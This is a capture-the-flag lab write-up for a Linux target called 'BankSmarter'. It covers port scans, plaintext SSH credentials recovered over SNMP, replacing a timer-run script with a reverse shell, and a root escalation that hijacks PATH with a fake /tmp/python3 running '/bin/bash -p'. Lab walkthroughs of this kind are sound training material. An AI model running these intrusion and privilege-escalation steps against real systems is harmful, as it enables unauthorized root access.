



# BankSmarter


## Scenario

You are a senior operator on the Hack Smarter Red Team, tasked with a penetration test against a standalone Linux server. Your objective is to gain initial access and escalate privileges to root, emulating a worst-case scenario where a threat actor successfully compromises a critical asset.

You have been given the IP address of the target server and your mission is to gain a foothold, escalate to the **root** user, and retrieve the final flag from the `/root/` directory.

## Enumeration

Starting out, the attacker identifies only port 22 is available. Due to this the attacker will check UDP.
```bash
nmap -sV -T4 -p- 10.1.5.224                                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-18 10:00 EST
Nmap scan report for 10.1.5.224
Host is up (0.030s latency).
Not shown: 65534 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Scanning UDP reveals SNMP is open.
```bash
nmap -sU -T4 -p1-1000 10.1.5.224 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-18 10:04 EST
Warning: 10.1.5.224 giving up on port because retransmission cap hit (6).
Stats: 0:00:53 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 8.10% done; ETC: 10:13 (0:07:34 remaining)
Stats: 0:15:36 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 94.91% done; ETC: 10:21 (0:00:49 remaining)
Nmap scan report for 10.1.5.224
Host is up (0.031s latency).
Not shown: 975 closed udp ports (port-unreach)
PORT    STATE         SERVICE
31/udp  open|filtered msg-auth
49/udp  open|filtered tacacs
68/udp  open|filtered dhcpc
135/udp open|filtered msrpc
155/udp open|filtered netsc-dev
==161/udp open          snmp==
```

With [snmpwalk](https://linux.die.net/man/1/snmpwalk) the attacker finds plaintext credentials:
`layne.stanley : 5t6^jahTRjab`


With these credentials access to ssh is possible.


In the home directory there is a script owned by `scott.weiland`. Using [pspy](https://github.com/DominicBreuker/pspy) it's possible to see that the script is running on a timer. Since this script is in our user's home directory, the attacker can simply remove it and replace it with a reverse shell that will get executed.




Utilizing [Penelope](https://github.com/brightio/penelope) the reverse shell is caught.


Through standard enumeration the attacker identifies interesting attack vectors from `.bash_history`.
```bash
<SNIP>
socat stdio unix-connect:/opt/bank/sockets/live.sock
htop
tail -f /var/log/auth.log
ssh-keygen -t rsa -f ~/.ssh/id_rsa
scp somefile.txt user@10.0.0.5:/tmp/
nano todo.txt
docker ps -a
<SNIP>
{ echo "ls -la ~/Documents";  echo "cd ~/Downloads";  echo "git status";  echo "vim notes.txt";  echo "cat /var/log/syslog";  echo "ps aux | grep python";  echo "socat stdio unix-connect:/opt/bank/sockets/live.sock";  echo "htop";  echo "tail -f /var/log/auth.log";  echo "ssh-keygen -t rsa -f ~/.ssh/id_rsa";  echo "scp somefile.txt user@10.0.0.5:/tmp/";  echo "nano todo.txt";  echo "docker ps -a";  } >> "$HISTFILE"
# Ensure correct ownership and permissions
chown scott.weiland:scott.weiland "$HISTFILE"
chmod 600 "$HISTFILE"
ls -la /home/scott.weiland/.bash_history 
cat /home/scott.weiland/.bash_history 
rm -rf /home/scott.weiland/.bash_history 
HISTFILE="/home/scott.weiland/.bash_history"
{ echo "ls -la ~/Documents";  echo "cd ~/Downloads";  echo "git status";  echo "vim notes.txt";  echo "cat /var/log/syslog";  echo "ps aux | grep python";  echo "socat stdio unix-connect:/opt/bank/sockets/live.sock";  echo "htop";  echo "tail -f /var/log/auth.log";  echo "ssh-keygen -t rsa -f ~/.ssh/id_rsa";  echo "scp somefile.txt user@10.0.0.5:/tmp/";  echo "nano todo.txt";  echo "docker ps -a";  } >> "$HISTFILE"
<SNIP>
```

Utilizing `socat stdio unix-connect:/opt/bank/sockets/live.sock` from above, it's possible to compromise `ronnie.stone`


Enumerating for SUID binaries reveals:


Which when run reveals a call to `bank_backup.py`



Reading the source code reveals a critical weakness, The script is checking the current shell's environment with `#!/usr/bin/env python3`. This can be abused by specifying a path that gets loaded prior to the intentional one.
```bash
export PATH="/tmp:$PATH"
```

With this directory set, we can create the payload that will be called when the script is run.
```bash
echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/python3
chmod +x /tmp/python3
```

The scripts has been run and thus fully compromising the system.

